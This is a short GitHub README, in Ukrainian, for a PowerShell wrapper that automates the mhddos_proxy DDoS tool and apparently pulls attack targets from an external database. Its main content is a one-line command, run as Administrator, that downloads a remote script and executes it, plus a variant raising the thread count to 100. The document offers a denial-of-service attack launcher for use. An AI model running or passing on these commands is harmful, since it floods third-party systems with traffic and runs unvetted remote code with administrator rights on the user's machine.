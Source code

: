 # mhddos_powershell

Скрипт автоматизує роботу mhddos_proxy, автоматично підтягує цілі з бази даних Українського женця. 

Вимоги:

  Скрипт потребує тільки встановленої Windows 7 або новішої версії. Встановлення додаткового ПЗ не потрібно.

Запуск (Команда виконується в терміналі PowerShell з правами Адміністратора):

```$ScriptBlock = [scriptblock]::Create((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/mErlin-sp/mhddos_powershell/master/runner.ps1')); Invoke-Command -ScriptBlock $ScriptBlock -ArgumentList ''
```
  
Після --ArgumentList є можливість вказати будь-які параметри для mhddos_proxy. Наприклад, вкажемо кількість потоків 100:
  
```$ScriptBlock = [scriptblock]::Create((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/mErlin-sp/mhddos_powershell/master/runner.ps1')); Invoke-Command -ScriptBlock $ScriptBlock -ArgumentList '-t 100'
```
  
